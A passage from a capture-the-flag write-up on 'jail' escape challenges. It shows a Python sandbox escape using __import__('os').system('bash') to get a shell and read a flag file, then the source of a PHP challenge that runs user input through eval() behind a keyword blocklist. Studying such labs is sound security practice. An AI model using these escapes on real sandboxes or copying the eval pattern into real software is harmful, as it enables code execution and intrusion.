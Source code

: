 
## 🎉 Result
```
[+] > __import__('os').system('bash')
ls
flag.txt
jail-1.py
shell.py
cat flag.txt
bbctf{is_th3r3_another_w4y_70_s0lv3_th1s?}
```

**By executing the __import__('os').system('bash') we finally getting the shell access and escaping the sandboxing and gott that flag WEEEEEEEE.**

FLAG:
```
bbctf{is_th3r3_another_w4y_70_s0lv3_th1s?}
```
---

## 🧱 JAIL CHALLENGE 4 
<br>

```php
<?php

echo "========================\n";
echo "=    Eevee's Jail 4    =\n";
echo "========================\n";

echo "[+] > ";
$var = trim(fgets(STDIN));

if($var == null) die("[?] Input needed to escape this prison\n");

function filter($var) {
        if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
} else {
        echo "[!] Restricted characters has been used";
}
echo "\n";
?>
```
## 🔎 Initial Observation
